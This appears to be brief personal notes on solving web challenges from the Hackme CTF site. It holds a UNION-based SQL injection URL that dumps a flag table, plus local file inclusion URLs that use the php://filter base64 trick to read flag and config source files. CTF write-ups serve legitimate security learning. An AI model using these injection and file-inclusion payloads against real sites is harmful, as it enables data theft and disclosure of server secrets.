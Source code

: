 ```yaml
---
title: hackme-ctf
tags:
---
```


[Hackme CTF](https://hackme.inndy.tw/)

### WEB

#### hide and seek

查看源代码

#### guestbook

`https://hackme.inndy.tw/gb/?mod=read&id=1 and 0 union select 1,2,3,group_concat(flag) from flag`

#### LFI

```html
https://hackme.inndy.tw/lfi/?page=php://filter/convert.base64-encode/resource=pages/flag
https://hackme.inndy.tw/lfi/?page=php://filter/convert.base64-encode/resource=pages/config
```

